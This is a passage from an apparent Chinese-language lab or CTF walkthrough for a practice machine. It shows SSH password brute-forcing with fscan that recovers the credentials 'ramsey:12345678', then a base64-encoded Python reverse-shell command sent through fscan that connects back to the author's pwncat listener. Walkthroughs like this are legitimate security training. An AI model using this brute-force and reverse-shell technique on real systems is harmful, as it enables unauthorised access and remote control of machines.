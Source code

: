 ### SSH 爆破

尝试直接对 SSH 服务进行爆破

首先，直接在 Docker 容器内部署 [shadow1ng/fscan: 一款内网综合扫描工具，方便一键自动化、全方位漏扫扫描。](https://github.com/shadow1ng/fscan)

```bash
(local) pwncat$ upload ./tools/fscan
./fscan ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 6.3/6.3 MB • 1.7 MB/s • 0:00:00
[20:59:58] uploaded 6.27MiB in 4.03 seconds
```

然后指定用户名为 `ramsey`，开始扫描

```bash
(remote) root@8b39a559b296:/root# ./fscan -h 172.17.0.1 -user ramsey

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.3
start infoscan
172.17.0.1:22 open
[*] alive ports len is: 1
start vulscan
[+] SSH 172.17.0.1:22:ramsey 12345678
已完成 1/1
[*] 扫描结束, 耗时: 58.712306679s
```

成功得到凭据

```plaintext
ramsey:12345678
```

## User - ramsey

由于靶机上并未部署 SSH 客户端，所以采用 fscan 内置的命令执行功能

```bash
(remote) root@8b39a559b296:/root# ./fscan -h 172.17.0.1 -user ramsey -pwd "12345678" -c "echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjE5Mi4xNjguNTYuMTAyIiw4ODg4KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG9ydCBwdHk7IHB0eS5zcGF3bigiL2Jpbi9iYXNoIikn | base64 -d | bash"

┌─[randark@parrot]─[~]
└──╼ $ pwncat-cs -lp 8888
[21:06:55] Welcome to pwncat 🐈!
[21:09:25] received connection from 192.168.56.119:54850
[21:09:26] 192.168.56.119:54850: registered new host w/ db
(local) pwncat$ back
(remote) ramsey@unbaked:/home/ramsey$ whoami
ramsey
```
